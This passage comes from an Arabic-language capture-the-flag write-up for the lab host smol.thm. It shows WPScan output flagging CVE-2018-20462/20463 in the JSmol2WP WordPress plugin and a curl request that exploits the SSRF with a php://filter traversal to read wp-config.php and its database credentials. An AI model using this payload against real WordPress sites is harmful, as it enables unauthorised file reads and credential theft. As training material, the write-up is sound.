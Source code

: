 ```bash
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Cross-Site Scripting (XSS)
 |     References:
 |      - https://wpscan.com/vulnerability/0bbf1542-6e00-4a68-97f6-48a7790d1c3e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20462
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
 |
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
...
```
مستخدم ووردبريس يقدر يستعمل إضافات خارجية عشان يزيد من قدرات الموقع حقه، عندنا هنا إضافة بنفس اسم التحدي. الإضافة إصدارها فيه ثغرتين، الأولى XSS والثانية SSRF أنا بحثت في الموقع وماوجدت إمكانية إني أترك تعليق أول أرسل رسالة على الموقع، فلذلك راح نترك ثغرة XSS ونركز على SSRF. من خلال هذه الثغرة يمديك تقرأ ملفات على السيرفر، أحد الملفات المهمة هي wp-config.php وهو اللي راح نقرأه ونحاول نطلع منه معلومات حساسة.
### استغلال SSRF
```bash
$ curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php"
...
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'REDACTED' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
...
```
عندنا معلومات مستخدم قاعدة البيانات، خلينا نروح على wp-admin في الموقع ونحاول نسجل دخول بهذه المعلومات
